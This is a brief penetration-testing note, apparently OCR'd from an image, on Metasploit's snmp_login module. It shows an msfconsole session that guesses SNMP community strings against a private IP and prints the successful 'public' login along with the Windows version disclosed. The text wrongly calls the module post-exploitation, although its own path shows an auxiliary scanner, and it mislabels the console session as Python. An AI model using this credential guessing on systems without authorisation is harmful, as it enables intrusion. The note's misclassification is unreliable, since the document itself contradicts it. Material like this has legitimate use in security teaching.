 - The SNMP_login module in Metasploit is designed to test the security of SNMP-enabled devices by attempting to authenticate to SNMP services using a list of usernames and passwords.
- The module can be used to gather information about the device, such as its configuration settings, running services, and other system information.
- The SNMP_login module is a post-exploitation module, which means that it can only be used once the attacker has already gained access to the target system or network.
# Code - 
```python
msf6 > use auxiliary/scanner/snmp/snmp_login
msf6 auxiliary(scanner/snmp/snmp_login) > set RHOSTS 192.168.216.11
RHOSTS => 192.168.216.11
msf6 auxiliary(scanner/snmp/snmp_login) > run

[+] 192.168.216.11:161 - Login Successful: public (Access level: read-only); Proof (sysDescr.0): Hardware: AMD64 Family 23 Model 24 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.1 (Build 7601 Multiprocessor Free)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```
